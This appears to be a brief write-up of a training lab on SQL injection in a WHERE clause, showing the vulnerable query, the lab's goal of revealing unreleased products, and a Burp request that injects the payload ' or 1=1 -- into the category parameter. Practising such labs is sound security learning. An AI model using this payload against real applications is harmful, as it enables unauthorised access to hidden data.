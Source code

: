 

Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

# End goal:
- To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 


# Analysis

Burp:

GET /filter?category=Gifts HTTP/2


adding payload
` 'or 1=1 -- `

GET /filter?category= '' or 1=1 -- HTTP/2
